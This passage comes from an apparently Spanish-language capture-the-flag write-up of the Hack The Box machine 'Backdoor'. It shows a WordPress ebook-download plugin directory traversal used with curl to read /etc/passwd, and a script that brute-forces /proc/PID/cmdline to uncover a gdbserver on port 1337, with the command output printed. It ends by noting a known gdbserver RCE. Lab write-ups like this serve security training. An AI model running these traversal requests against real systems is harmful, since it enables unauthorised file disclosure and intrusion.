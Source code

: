 ```bash
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
user:x:1000:1000:user:/home/user:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
<script>window.close()</script>#                 
```

Tras confirmar la vulnerabilidad, se utilizó el mismo vector para filtrar el archivo `/etc/passwd` en busca de usuarios con acceso a una shell válida.
```bash
❯ curl -s -X GET http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php\?ebookdownloadurl\=/etc/passwd | grep "sh$"
/etc/passwd/etc/passwd/etc/passwdroot:x:0:0:root:/root:/bin/bash
user:x:1000:1000:user:/home/user:/bin/bash
```

Con el objetivo de identificar procesos relevantes en el sistema, se desarrolló un script para automatizar la enumeración de rutas en `/proc/[PID]/cmdline` mediante la vulnerabilidad de **directory traversal** previamente encontrada. Utilizando este enfoque, se logró identificar el proceso con **PID 884**, cuyo contenido reveló la ejecución continua de un comando que levanta un servicio `gdbserver` escuchando en el puerto **1337**:
```bash
❯ git clone https://github.com/Indiopicaro/BruteforcePID.git
❯ cd BruteforcePID
❯ python3 BruteForcePID.py -u "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/PID/cmdline"

============================================================
[+] PID 884 VÁLIDO                                                                                                                                               
[+] URL: http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/884/cmdline                                               
[+] Contenido: /proc/884/cmdline/proc/884/cmdline/proc/884/cmdline/bin/sh-cwhile true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done<script>window.close()</script>
============================================================                                                                                                     
```
Este hallazgo confirmó que el puerto 1337, previamente identificado por Nmap como un servicio desconocido (`waste?`), correspondía a una instancia de **gdbserver**.

## Gdbserver

A través de **Searchsploit**, se encontró que `gdbserver` es vulnerable a **Remote Code Execution (RCE)**.
![5](/assets/img/machines/backdoor/5.jpeg)
